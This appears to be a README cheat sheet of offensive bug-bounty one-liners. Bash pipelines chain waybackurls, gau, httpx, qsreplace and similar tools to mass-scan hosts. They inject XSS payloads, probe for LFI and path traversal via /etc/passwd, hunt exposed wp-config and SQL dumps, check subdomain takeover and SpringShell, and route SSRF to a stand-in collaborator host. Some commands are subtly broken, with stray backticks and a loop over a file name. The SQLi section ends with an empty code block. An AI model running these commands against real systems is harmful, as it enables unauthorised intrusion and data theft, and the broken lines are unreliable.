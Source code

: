 **XSS using airixss, waybackurls, gf, uro, httpx, qsreplace**
```bash
echo http://testphp.vulnweb.com | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
```
**Company Sensitive Data using gau**
```bash
cat subdomains.txt | gau | tee gau.txt | grep -E
"\\.xls|\\.xlsx|\\.json|\\.pdf|\\.sql|\\.doc|\\.docx|\\.pptx|\\.mp3|\\.mp4|\\.zip|\\.tar|\\.gzip|\\.rar|\\.json"
| tee sensitive-files.txt
```
**Generate Target Based Wordlist with gau and unfurl**
```bash
cat subdomains.txt | gau | unfurl paths | rev | cut -d '/' -f1 | rev | sort -u | tee wordlist.txt
```
**/api/geojson target IP ranges LFI**
```bash
cat subdomains.txt | httpx -nc -t 250 -p 80,443,8080,8443,4443,8888 -path
"/api/geojson?url=file:///etc/passwd" -mr "root:x" | anew geojson-lfi.txt
```
**Nginx Path Traversal**
```bash
cat subdomains.txt | httpx -silent -path "///////../../../../../../etc/passwd" -sc -mc 200 -mr 'root:x' | anew nginx-traversal.txt
```
**wp-config.php_orig using httpx**
```bash
cat subdomains.txt | httpx -silent -sc -mc 200 -path "/wp-config.php_org" -mr "DB_PASSWORD" | anew wp-config.php_orig
```
**Create your own wordlist from @0xJin**
```bash
cat domains.txt | httpx | xargs curl | tok | tr '[:upper:]' '[:lower:]' | sort -u | tee -a wordlist.txt
```
**Subdomain Takeover**
```bash
cat domains.txt | assetfinder --subs-only | tee subdomains.txt; subjack -w
subdomains.txt -ssl -t 100 | tee -a takeover.txt | grep -v "Vulnerable"
```
**XSS from waybackurls and qsreplace**
```bash
echo https://target.com
 | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
```

**Local File Inclusion using httpx**
```bash
cat hosts | httpx -nc -t 250 -p 80,443,8080,8443,4443,8888 -path "///////../../../etc/passwd" -mr "root:x" | anew lfi-httpx.txt`
```
**Wordpress Wp-content mysql.sql**
```bash
cat hosts.txt | httpx -c -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -p 80,443,8080,8443 | anew wp-sql.txt
```
**CVE-2022-22963 SpringShell (400 Code --> Vulnerability)**
```bash
for host in hosts.txt; do curl $host:port/path?class.module.classLoader.URLs%5B0%5D=0; done`
```
**SSRF using dnsx, httpx, gau and qsreplace**
```bash
cat subdomains.txt | dnsx | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://hacker.burpcollaborator.net`
```
**SQLi using dnsx, httpx, xargs, findomain, waybackurls, gf, sqlmap**
```bash
```